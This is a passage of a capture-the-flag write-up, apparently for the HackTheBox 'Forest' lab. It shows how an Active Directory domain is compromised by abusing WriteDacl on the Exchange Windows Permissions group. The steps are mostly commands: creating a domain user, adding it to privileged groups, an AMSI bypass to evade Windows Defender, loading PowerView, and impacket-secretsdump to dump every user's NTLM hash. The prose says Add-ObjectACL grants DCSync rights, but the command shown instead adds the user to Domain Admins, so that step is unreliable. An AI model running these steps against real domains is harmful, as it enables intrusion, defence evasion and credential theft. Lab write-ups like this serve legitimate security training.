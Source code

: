 Looking closer, we can see the aformentioned `Account Operators` group has `GenericAll` privileges (full control) over the `Exchange Windows Permissions` group, which in turn has `WriteDacl` privileges on the domain. 

![Exchange Windows Permissions group](images/bloodhound3.png)

With write access to the target object's DACL (Discretionary Access Control List), you can grant yourself any privilege you want on the object. We can exploit this by adding a user to the group and giving them `DCSync` privileges.

To do this, we must create a new user and add it to the `Exchange Windows Permissions` and `Remote Management Users` group.
```
PS C:\Users\svc-alfresco> net user knytecode abc123! /add /domain
PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions" knytecode /add
PS C:\Users\svc-alfresco> net localgroup "Remote Management Users" knytecode /add
```
To aid in adding `DCSync` privilege to our user on the domain's ACL, we can import the [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon) module.

_"PowerView is a PowerShell tool to gain network situational awareness on Windows domains. It contains a set of pure-PowerShell replacements for various windows net* commands, which utilize PowerShell AD hooks and underlying Win32 API functions to perform useful Windows domain functionality"_

Before uploading the PowerView script, we run the Bypass-4MSI command in Evil-WinRM to evade Windows Defender.
```
PS C:\Users\svc-alfresco> Bypass-4MSI
[+] Patched! :D
PS C:\Users\svc-alfresco> upload /usr/share/windows-resources/PowerSploit/Recon/PowerView.ps1
PS C:\Users\svc-alfresco> Import-Module ./PowerView.ps1
```
Now we can use the `Add-ObjectACL` function from PowerView to give the new user DCSync rights.
```
PS C:\Users\svc-alfresco> $Pass = ConvertTo-SecureString 'abc123!' -AsPlainText -Force
PS C:\Users\svc-alfresco> $Cred = New-Object System.Management.Automation.PSCredential('htb\knytecode', $Pass)
PS C:\Users\svc-alfresco> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'knytecode' -Credential $Cred
```
We can now run the Impacket `secretsdump` tool with our new user to reveal the NTLM hashes for all domain users.
```shell-session
knytecode@parrot:~$ impacket-secretsdump htb/knytecode@10.10.10.161
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
Password: <abc123!>
```